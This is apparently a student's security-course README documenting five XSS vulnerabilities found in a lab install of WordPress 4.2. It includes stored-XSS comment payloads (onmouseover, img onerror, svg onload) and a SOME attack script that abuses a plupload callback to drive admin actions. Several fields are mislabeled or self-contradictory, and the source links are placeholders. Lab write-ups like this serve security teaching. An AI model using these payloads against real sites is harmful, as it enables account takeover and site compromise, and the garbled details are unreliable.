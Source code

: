 # Project 7 - WordPress Pentesting

Time spent: **30** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. (Required) SOME (similar to XSS execution)
  - [ ] Summary: Web Application Attack that abuses the callback endpoints. Can enforce the victim to execute script methods on any page on the endpoints domain.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 
  - [<img src="http://g.recordit.co/CwYanI8pQY.gif" width=250><br>] GIF Walkthrough: 
  - [ ] Steps to recreate: Leave a comment with a button javascript, after we post it- we get a Button as out comment, so victim clicks on it and weird stuff will pop up.
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 2. (Required) Cross Site Scripting Exploit
  - [ ] Summary: Onload we alert with a payload. Alert will pop out everytime the site loads.
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 
  - [<img src="http://g.recordit.co/zU5B75JSqB.gif" width=250><br> ] GIF Walkthrough: 
  - [ ] Steps to recreate: We leave an URL in the post, sort of like HTTP, every time the page loads- it cannot pop out an alert.
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 3. (Required) XSS
  - [ ] Summary: We would insert this malicious link into the comment to generate a clickable link <a href="[caption code=">]</a><a title=" onmouseover=alert('test')  ">link</a>. Versions before 4.2.3 starting from at least 3.0 (released in 2010) are vulnerable
    - Vulnerability types: Cross Site 
    - Tested in version: 4.2
    - Fixed in version: 4.2.3 Stored XSS
  - [<img src="http://g.recordit.co/jDhPM4VzCo.gif" width=250><br>] GIF Walkthrough: 
  - [ ] Steps to recreate: Post malicious script in the comment section, after admin has approved your comment- no auth is needed afterwards.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 4. (Optional)  XSS cont. #4 4.2.3 Stored XSS
  - [ ] Summary: 
    - Vulnerability types: Stored XSS. WordPress shortcode processing manipulates this into the following form
     <a href="</a><a title=" onmouseover=alert('test')  ">link</a>
    - Tested in version: 4.2
    - Fixed in version: The bug was corrected on July 23, 2015. It has been patched automatically for most users.
  - [<img src="http://g.recordit.co/Pt3D6BaBmN.gif" width=250><br> ] GIF Walkthrough: 
  - [ ] Steps to recreate: Post malicious script in the comment section, after admin has approved your comment- no auth is needed afterwards.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) XSS
  - [ ] Summary: XSS, example of Cross Site Scripting
    - Vulnerability types:
    - Tested in version: 4.2
    - Fixed in version: 
  - [ <img src="http://g.recordit.co/K4eoNdeV1T.gif" width=250><br>] GIF Walkthrough: 
  - [ ] Steps to recreate: Create a new post using malicious script 
   abc<img src=a onerror=alert('antistore'). Try publishing the post and everytime you would have to click on the pop up in order to comment or do anything else on the site.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

https://klikki.fi/adv/wordpress3.html

Just some examples of the script

<button onclick="fire()">Click</button>
<script>
function fire() {
open('javascript:setTimeout("location=\'http://wpdistillery.vm
/wp-includes/js/plupload
/plupload.flash.swf?target%g=opener.document.body.firstElementChild.nextElementSibling.nextElementSibling.nextElementSibling.firstElementChild.click&uid%g=hello&\'", 2000)');  
  setTimeout('location="http://wpdistillery.vm/wp-admin/plugin-install.php?tab=plugin-information&plugin=wp-super-cache&TB_iframe=true&width=600&height=550"')
}
</script>

http://wpdistillery.vm/<svg onload=alert(1)>



## Resources

- [WordPress Source Browser](https://klikki.fi/adv/wordpress3.html)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with RecordIt.co.

## Notes

Describe any challenges encountered while doing the work

It's a lot of information to process and 2 week just aren't enough time to explore unless you are an advanced hacker.
## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
